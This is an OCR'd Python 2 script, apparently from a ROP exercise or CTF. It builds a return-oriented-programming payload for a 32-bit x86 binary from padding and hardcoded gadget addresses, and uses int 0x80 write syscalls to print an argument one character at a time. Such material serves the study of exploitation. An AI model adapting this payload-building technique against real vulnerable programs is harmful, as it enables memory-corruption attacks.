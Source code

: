 ``` python
    p += pack('<I', 0xdeadbeef) #  filler for pop ebx
    return p


#print the char in memory to the screen
def print_char():
    p = ""
    #Set eax to 0x4 and ebx to 0x1
    p += pack('<I', 0x080584a6) # : xor eax, eax ; pop ebx ; ret
    p += pack('<I', 0xffffffff)# set ebx to 0xfffffff
    p += pack('<I', 0x080e2593) #: add al, 2 ; inc ebx ; ret (ebx=0xffffffff+1 = 0x00000000)
    p += pack('<I', 0x080e2593) #: add al, 2 ; inc ebx ; ret (ebx=0x00000000+1 = 0x00000001)

    #Set ecx to 0x080ea060
    p += pack('<I', 0x080e4c5d) # pop ecx ; ret
    p += pack('<I', 0x080ea060) #address of AAAA


    #set edx to 0x1
    p += pack('<I', 0x0806e97a)# pop edx ; ret
    p += pack('<I', 0xffffffff)# set edx to 0xfffffff
    p += pack('<I', 0x0805d0e7)# : inc edx ; ret
    p += pack('<I', 0x0805d0e7)# : inc edx ; ret (now edx is 0x1)

    #call interrupt
    p += pack('<I', 0x0806f040) # int 0x80; ret
    return p


#convert a char to 0xXXXXXXX number
def dub_char(s):
    r = ord(s[0])
    r = r | r << 8 | r << 16 | r << 24
    return r

if __name__ == "__main__":
    p = '+'*(0x70) #padding

    for c in sys.argv[1]:
        if ord(c) == 0x20:
            p += write_space()
        else:
            p += write_char(dub_char(c))

        p += print_char()

    p += write_newline()
    p += print_char()

    p += pack('<I', 0xcafebabe) # <-- segfault here

    print p 
```
